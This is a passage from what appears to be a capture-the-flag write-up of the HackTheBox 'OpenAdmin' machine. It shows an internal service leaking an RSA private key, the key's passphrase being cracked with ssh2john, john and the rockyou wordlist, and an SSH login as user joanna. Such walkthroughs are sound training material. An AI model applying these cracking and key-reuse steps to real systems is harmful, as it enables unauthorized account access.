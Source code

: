 ```r
jimmy@openadmin:/var/www/internal$ curl 127.0.0.1:52846/main.php
```

<center><br>
<img src="/assets/img/uploads/openadmin/rsa.png">
</center>

Now we can decrypt the rsa using john and get the password <i>bloodninjas</i>

```r
m1m3@kali:~$ python /usr/share/john/ssh2john.py joanna_rsa> joanna_rsa.hash
m1m3@kali:~$ john --wordlist=/usr/share/wordlists/rockyou.txt joanna_rsa.hash

Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (joanna_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:07 DONE (2020-05-02 00:39) 0.1396g/s 2003Kp/s 2003Kc/s 2003KC/sa6_123..*7_Vamos!
Session completed
```

Now Let's ssh into user joanna, but don't forget to change permissions of the rsa key.

```r
m1m3@kali:~$ chmod 700 joanna_rsa
m1m3@kali:~$ ssh -i joanna_rsa joanna@10.10.10.171

Enter passphrase for key 'joanna_rsa': 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri May  1 19:13:01 UTC 2020

  System load:  0.15              Processes:             188
  Usage of /:   51.0% of 7.81GB   Users logged in:       1
```